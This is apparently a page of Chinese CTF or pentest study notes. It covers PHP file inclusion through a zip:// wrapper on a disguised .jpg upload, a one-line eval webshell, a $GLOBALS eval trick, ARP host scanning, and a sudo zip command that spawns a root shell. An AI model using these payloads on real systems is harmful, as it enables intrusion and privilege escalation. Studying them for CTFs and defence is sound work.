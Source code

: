 - zip、phar协议利用：

  ```
  <?php
  	require("header.php");
  	$page="";
  	if (isset($_GET['page']))
  		$page=$_GET['page'].".php";
  	else
  		$page="main.php";
  	include($page);
  ?>
  只能上传jpg后缀文件，00截断失败
  可以考虑加一个中间件来解决，既然截断不了，那就上传压缩包考虑使用zip、phar伪协议，zip打包，把扩展名改为.jpg上传，payload
  http://ip/index.php?page=zip://uploads/图片ID.jpg#shell
  shell后加上.php后缀成功被包含解析。
  ```

- 当webshell输入为十六进制数时，其只能接受十六进制对应字符的ASCII码：

  ```
  <?php
  eval($_POST[0x41]);
  ?>
  0x41 --> A --> 65
  具体利用只能接受ASCII码，即65=PHPinfo();
  ```

- ```
  eval("var_dump($$args);");
  $$args首先考虑$GLOBALS
  $GLOBALS是PHP中的全局变量，用来储存全局作用域中的变量
  ```

- 基于ARP【数据链路层】的网络扫描工具：netdiscover、arp-scan。为什么要用arp去探测内网主机？主要是因为传统探测远程主机是否存活的方法是通过ICMP【网络层】协议中的回显应答报文来探测(ping)。很多主机为了避免被扫描器探测，通过防火墙将ICMP包屏蔽，从而达到在网络中隐藏的目的。使用ARP探测相当隐蔽，探测的信息更准确。

- Linux zip命令提权：

  ```
  sudo -l发现zip命令可以使用root权限运行，那么提升权限只需要：
  先利用touch exploit创建一个随机文件，并用zip命令进行压缩
  sudo zip exploit.zip exploit -T --unzip-command="python -c 'import pty; pty.spawn(\"/bin/sh\")'"
  -T 检查文件的完整性。这个参数可以让他执行下一个参数 
  –unzip-command，在这个参数中写入一个python的交互shell
  ```

  ​

